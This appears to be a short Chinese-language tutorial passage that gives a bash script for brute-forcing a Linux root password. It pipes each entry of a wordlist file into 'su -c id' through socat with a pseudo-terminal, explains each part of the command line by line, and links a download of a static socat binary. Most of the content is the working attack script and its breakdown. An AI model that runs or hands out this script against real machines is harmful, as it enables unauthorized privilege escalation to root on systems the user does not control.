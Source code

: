 ```
#!/bin/bash

for i in `cat 300.txt`
do
  			echo "passwd:$i"
        (sleep 0.1;echo "$i")|./socat - EXEC:'bash -c "su -c id"',pty

done
```

解析：

- for i in \`cat 300.txt\`
  - 逐行读取300.txt字典文件
- echo "passwd:$i"
  - 显示当前进度
- (sleep 0.1;echo "$i")|./socat - EXEC:'bash -c "su -c id"',pty
  - (sleep 0.1;echo "$i")
    - 一个子shell
    - sleep 0.1 暂停0.1秒
    - 输出文件当前行内容
  - |
    - 将前面的输出通过管道给后面的命令
  - ./socat
    - 运行socat工具（一个网络工具），后面跟参数
  - -
    - 表示标准输入输出
  - EXEC:'bash -c "su -c id"'
    - 执行命令
    - su -c id
      - 以root身份执行id
  - pty
    - 使用伪终端







静态socat下载地址

```
https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat
```

